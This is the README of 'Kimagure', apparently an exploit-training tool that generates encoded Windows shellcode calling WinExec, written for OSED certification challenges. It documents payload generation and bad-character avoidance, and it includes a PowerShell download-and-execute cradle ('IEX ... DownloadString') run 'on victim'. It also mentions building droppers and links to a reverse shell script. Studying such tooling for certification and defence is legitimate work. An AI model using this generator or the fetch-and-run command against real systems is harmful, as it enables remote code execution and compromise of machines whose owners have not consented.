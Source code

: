# Kimagure

This is a very quick and dirty tool to generate fairly small Windows shellcode that calls WinExec 
with a given command, with a focus on readability and ease of debugging. Included is a generator 
script and the template assembly code that it is based on. 

The word "kimagure" means "fickle" or "moody", which is how I kept feeling about certain shellcode 
generators that tried obfuscation tricks that were frustrating to debug, when all I needed was a 
fairly small payload to test with the exploit I just finished writing. It was created for use on 
certain challenges for the OSED, and is by no means intended to be used for professional engagements. 

## Usage

Basic usage is 

    python3 kimagure.py "command to run" <key>

The key is optional (default is 0x11), and can range from 1 to 129. Since we are just encoding some 
ASCII here, the last printable byte is 0x7E, so we have a full 0x81 worth of space to play with. All 
we're really doing is just finding a way to execute a command on the command line.

Make sure you customize the BADCHARS list at the top of the script to your needs. The script will 
highlight any bad characters in the code it outputs. If you do see bad chars while using your key, 
simply increment until you don't see any bad chars in your payload. TODO: A more programmatic way to do 
this, this code is a combination of multiple scripts...

The template code is optimized to exclude many common bad chars, but exploits can be tricky and it 
might need some modification. Feel free to change up any code with functionally equivalent pieces of 
code, hopefully you don't run into too many issues!

## How It Works

The algorithm is pretty straight forward:

* Pad the input string with \x00 until it's divisible by 4
* Increment every byte of the input string by the given key
* Process the string backwards because we are pushing onto the stack
* Split string up into groups of 4 bytes
* Generate push instructions to push each chunk onto the stack
* Place within the shellcode template

The code generated sets up a call to WinExec, and pushes our encoded string onto the stack. Then it 
loops over the string and subtracts our key value from each byte before calling WinExec. This is a 
very simple way to avoid bad chars and provide basic obfuscation.

In addition to generating a shellcode buffer for use in exploit scripts, it generates a raw shellcode 
file (out.bin), as well as a very barebones tiny PE file for testing (out.exe). See template.asm and 
pe32template.asm for more details on how these work.

In our specific use case here, we don't have to worry too much about bypassing things outside of Windows' 
own security mechanisms. This means you can focus on understanding the basic concepts in this early stage, 
instead of falling into a rabbit hole of obscure issues that are beyond the scope of your learning goal. 
This things are important to learn for sure, but sometimes this process can add unnecessary complexity when 
learning a fundamental concept, leading to confusion later on.

## Verify it's working

You can run a simple test like so:

On Linux

    $ python3 kimagure.py "powershell"

On Windows

    C:\> out.exe

If you are testing the .exe and get the 0xc0000005 error, just run it again. Sometimes newer versions of 
Windows have a weird issue with this PE template. A more stable PE can be built automatically once this 
generates source code as well.

See the next section for information on tweaking the EXE.

## Testing template.asm

This code simply runs the command 

    powershell IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/test.ps1')

You will need nasm and gcc!

Build:

    $ nasm -f win32 template.asm -o ki.template.o; ld -mi386pe -o ki.template.exe template.o

Run Server:

    $ cd server/
    $ python3 -m http.server 8080

On victim

    C:\Users\user\Documents\>out.exe
    Well Hello There :3

test.ps1 just prints something and verifies that it in fact works. If you need a working powershell reverse 
shell, use [this.](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1)

### Modifying the template 

If you are trying to make a dropper and the pre-generated exe is causing too many issues (like 0xc0000005 errors), 
you can just run `ndisasm -b 32 out.bin` after you've run the script, then take the push instructions starting at 
0x0000008A and paste them into the template.asm file where it says CUT HERE.

You will also want to make sure that the correct key is being used for the two sub instructions after the push 
instructions. The template uses 0x11 for the key.

Then just build according the build instructions listed above.

The shellcode to set up the WinExec call in the template was inspired by this code: https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html

The PE template came from previous research done here: https://n0.lol/a/pemangle.html

## Q & A

Q: Why WinExec, why not X/Y/Z API?

A: It works, the string is short, and it's ultimately easier to debug.

Q: Why not generate shellcode with one of the programs like in the course?

A: Because compilers and assemblers emit different code depending on different factors, and can add complexity 
where there was none before. By specifying our bytes directly, we have full control over the program. 
It's also easier to debug your bytes when you know exactly what they are. 

## Future Stuff

* Generate assembly code listing as well for debug or other use cases
* Use this to generate the PE for testing.
* Add a padding option for nop sleds or whatever else
